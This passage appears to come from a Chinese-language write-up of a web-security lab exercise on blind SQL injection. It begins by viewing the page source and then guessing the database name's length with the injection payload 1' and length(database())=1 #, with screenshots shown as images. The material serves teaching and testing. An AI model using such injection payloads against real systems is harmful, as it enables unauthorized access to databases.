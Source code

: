 #### 7.SQL Injection (Blind)（SQL注入盲注）

- 查看源码

<img src="img\源代码-7.jpg" alt="源代码-7" style="zoom:50%;" />

-  猜解数据库名的长度

  - 1' and length(database())=1 #   // 设数据库长度为1

  <img src="img\sql-blind1.jpg" alt="sql-blind1" style="zoom:67%;" />
